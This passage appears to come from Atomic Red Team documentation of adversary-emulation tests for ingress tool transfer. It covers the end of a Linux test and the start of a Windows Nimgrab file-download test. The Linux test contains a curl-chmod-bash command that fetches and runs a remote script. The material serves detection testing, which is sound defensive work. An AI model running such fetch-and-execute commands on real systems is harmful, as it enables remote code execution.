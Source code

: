 **Supported Platforms:** Linux


**auto_generated_guid:** bdc373c5-e9cf-4563-8a7b-a9ba720a90f3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_url | url of remote payload | string | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1105/src/atomic.sh|
| payload_name | payload name | string | atomic.sh|


#### Attack Commands: Run with `sh`! 


```sh
curl -sO #{remote_url}; chmod +x #{payload_name} | bash #{payload_name}
```

#### Cleanup Commands:
```sh
rm #{payload_name}
```





<br/>
<br/>

## Atomic Test #28 - Nimgrab - Transfer Files
Use nimgrab.exe to download a file from the web.

**Supported Platforms:** Windows


**auto_generated_guid:** b1729c57-9384-4d1c-9b99-9b220afb384e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | URL of file to copy | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt|
| destination_path | Destination path to file | path | $env:TEMP&#92;Atomic-license.txt|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmd /c "PathToAtomicsFolder\..\ExternalPayloads\nimgrab.exe" #{remote_file} #{destination_path}
```
